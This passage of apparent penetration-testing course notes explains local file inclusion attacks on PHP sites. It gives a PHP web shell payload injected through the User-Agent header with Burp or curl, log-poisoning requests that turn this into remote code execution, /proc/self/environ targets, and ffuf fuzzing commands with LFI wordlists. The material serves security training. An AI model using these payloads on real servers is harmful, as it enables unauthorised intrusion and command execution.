 The following are some of the service logs we may be able to read:

- `/var/log/sshd.log`
- `/var/log/mail`
- `/var/log/vsftpd.log`
#### Burp Request

After intercepting some web request we can modify the User Agent to include the PHP code snippet.

```
User-Agent: <?php system($_GET['cmd']); ?>
```

As the log should now contain PHP code, the LFI vulnerability should execute this code, and we should be able to gain remote code execution.

```
/index.php?page=/var/log/apache2/access.log&cmd=id
```

The `User-Agent` header is also shown on process files under the Linux `/proc/` directory. So, we can try including the `/proc/self/environ` or `/proc/self/fd/N` files (where N is a PID usually between 0-50), and we may be able to perform the same attack on these files.
#### Curl 

We may also poison the log by sending a request through `cURL`, as follows:
```
curl -s "http://<SERVER_IP>:<PORT>/index.php" -A "<?php system($_GET['cmd']); ?>"
```

### Automated Scanning

#### Fuzzing Parameters

```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<<SERVER_IP>>:<<PORT>>/index.php?FUZZ=value' -fs <<FILE_SIZE>>
```

#### LFI wordlists

A good wordlist is [LFI-Jhaddix.txt](https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt), as it contains various bypasses and common files, so it makes it easy to run several tests at once. 

```
ffuf -w /usr/share/wordlists/seclists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<<SERVER_IP>>:<<PORT>>/index.php?page=FUZZ' -fs <<FILE_SIZE>>
```

#### Fuzzing Server Webroot

```
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt:FUZZ -u 'http://<<SERVER_IP>>:<<PORT>>/index.php?language=../../../../FUZZ/index.php' -fs <<FILE_SIZE>>

...SNIP...

: Method           : GET
 :: URL              : http://<SERVER_IP>:<PORT>/index.php?language=../../../../FUZZ/index.php
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/default-web-root-directory-linux.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405
 :: Filter           : Response size: 2287
________________________________________________
```